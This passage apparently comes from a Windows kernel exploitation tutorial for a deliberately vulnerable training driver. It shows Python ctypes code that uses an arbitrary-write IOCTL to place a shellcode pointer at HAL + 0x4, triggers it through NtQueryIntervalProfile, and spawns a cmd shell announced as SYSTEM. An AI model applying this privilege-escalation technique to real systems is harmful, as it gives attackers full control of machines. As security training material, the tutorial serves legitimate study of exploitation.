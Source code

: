 ```python

# 0x002200B = IOCTL code that will jump to TriggerArbitraryOverwrite() function
kernel32.DeviceIoControl(
    handle,                             # hDevice
    0x0022200B,                         # dwIoControlCode
    write_what_where_pointer,           # lpInBuffer
    0x8,                                # nInBufferSize
    None,                               # lpOutBuffer
    0,                                  # nOutBufferSize
    byref(c_ulong()),                   # lpBytesReturned
    None                                # lpOverlapped
)
    
# Actually calling NtQueryIntervalProfile function, which will call HAL + 0x4, where our shellcode will be waiting.
ntdll.NtQueryIntervalProfile(
    0x1234,
    byref(c_ulong())
)

# Print update for nt_autority\system shell
print "[+] Enjoy the NT AUTHORITY\SYSTEM shell!!!!"
Popen("start cmd", shell=True)
```

There is a lot to digest here. Let's look at the following:

```python
# Referencing class created at the beginning of the sploit and passing shellcode to vulnerable pointers
# This is where the exploit occurs
write_what_where = WriteWhatWhere()
write_what_where.What = payload_final   # What we are writing (our shellcode)
write_what_where.Where = real_hal       # Where we are writing it to (HAL + 0x4). NtQueryIntervalProfile() will eventually call this location and execute it
write_what_where_pointer = pointer(write_what_where)

# Print update statement to reflect said exploit
print "[+] What: {0}".format(hex(write_what_where.What))
print "[+] Where: {0}".format(hex(write_what_where.Where))
```

Here, is where the `What` and `Where` come into play. We create a variable called `write_what_where` and we call the `What` pointer from the class created called `WriteWhatWhere()`. That value gets set to equal the address of a pointer to our shellcode. The same thing happens with `Where`, but it receives the value of HAL + 0x4. And in the end, a pointer to the variable `write_what_where`, which has inherited all of our useful information about our pointer to the shellcode and HAL + 0x4, is passed in the `DeviceIoControl()` function, which actually interacts with the driver.

One last thing. Take a peak here:

```python
# Actually calling NtQueryIntervalProfile function, which will call HAL + 0x4, where our shellcode will be waiting.
ntdll.NtQueryIntervalProfile(
    0x1234,
    byref(c_ulong())
)
```
